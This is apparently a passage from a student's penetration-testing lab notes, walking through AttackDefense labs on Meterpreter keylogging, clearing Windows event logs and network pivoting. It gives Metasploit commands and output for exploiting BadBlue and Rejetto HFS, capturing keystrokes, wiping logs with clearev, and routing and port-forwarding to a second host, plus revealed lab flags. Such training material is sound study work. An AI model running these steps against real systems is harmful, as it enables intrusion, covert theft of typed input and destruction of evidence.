


<details>
<summary>Reveal Flag: 🚩</summary>


`763e1c86da26c66e86a8537fd343280d`


</details>

------

## Lab 8 - Keylogging

> 🔬 [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> - Target IP: `10.2.24.165`
> - Metasploit **keystroke sniffer**

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.24.165
setg RHOST 10.2.24.165
workspace -a Keylogging
db_nmap -sV 10.2.24.165
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

```
shell
cd /
type flag.txt
```


<details>
<summary>Reveal Flag: 🚩</summary>


`70a569da306697d64fc6c19afea37d94`



</details>

### Keylogging

```bash
pgrep explorer
migrate 2420
help

# Stdapi: User interface Commands
===============================
    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components
```

- Open a `Notepad` session on the Target machine.
- On the Attacker machine, start the keystroke capture

```bash
keyscan_start
	Starting the keystroke sniffer ...
```

- Input some text into the target machine
- Back on the attacker machine, capture the entered data

```bash
keyscan_dump
```



- Stop the sniffer

```bash
keyscan_stop
```

------

## Lab 9 - Clearing Event Logs

> 🔬 Same as Lab 8 - [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> - Target IP: `10.2.26.66`
> - Metasploit **clearev** `Meterpreter` option

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.26.66
setg RHOST 10.2.26.66
workspace -a Clearenv
db_nmap -sV 10.2.26.66
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Clearing Windows Event Logs

❗ *Elevated privileges are necessary to clean the Event logs.*

- From the `Meterpreter` session clear the event log

```bash
clearev
```



> 📌 Exploit files or executables need to be cleaned too.

------

## Lab 10 - [Pivoting](https://www.offsec.com/metasploit-unleashed/pivoting/)

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> - Target 1 IP: `10.2.30.252`
> - Target 2 IP: `10.2.21.166`
> - **Pivoting** technique with a *network route* to the internal network's subnet

```bash
ping 10.2.30.252
    PING 10.2.30.252 (10.2.30.252) 56(84) bytes of data.
    64 bytes from 10.2.30.252: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.30.252: icmp_seq=2 ttl=125 time=1.99 ms

ping 10.2.21.166
	PING 10.2.21.166 (10.2.21.166) 56(84) bytes of data.
# No response from target2
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV 10.2.30.252
```

### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.2.30.252
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator

ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

    Interface 12
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:2a:6e:86:47:fc
    MTU          : 9001
    IPv4 Address : 10.2.30.252 #
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::9c0b:f00a:d8b4:f04f
    IPv6 Netmask : ffff:ffff:ffff:ffff::

    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:1efc
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

- Target2 is on the same Target1 subnet - **`10.2.30.0/24`** (look at the Interface 12)

### Pivoting

- From the attacker's machine, a route through "target1 `10.2.30.0/20` machine" is needed, to run MSF modules against target2 machine

```bash
run autoroute -s 10.2.30.0/20
```



- Now, subnet `10.2.30.0/20` can be accessed with `MSFconsole`

```bash
background
sessions -n target-1 -i 1
```

- Scan for open ports on the target2 system - `10.2.21.166`

```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.21.166
set PORTS 1-100
run
```



- 📌 The route is only applicable to `MSFconsole`, not ouside of it

#### Port Forwarding

- To perform an `nmap` scan on target2, a port forwarding need to be set up.
  - **`e.g.`** formward the remote port 80 to an attacker machine local port, which will allow to perform a service version enumeration of the target2 service

```bash
sessions 1
```

```bash
portfwd add -l 1234 -p 80 -r 10.2.21.166
	[*] Local TCP relay created: :1234 <-> 10.2.21.166:80

background
```

```bash
db_nmap -sS -sV -p 1234 localhost
```





```bash
search badblue
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.21.166
set LPORT 4433
run
```



```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

```bash
background
sessions -n target-2 -i 2
```



```
sessions 2
shell
cd /
type flag.txt
```


<details>
<summary>Reveal Flag: 🚩</summary>


`c46d12f28d87ae0b92b05ebd9fb8e817`



</details>


------

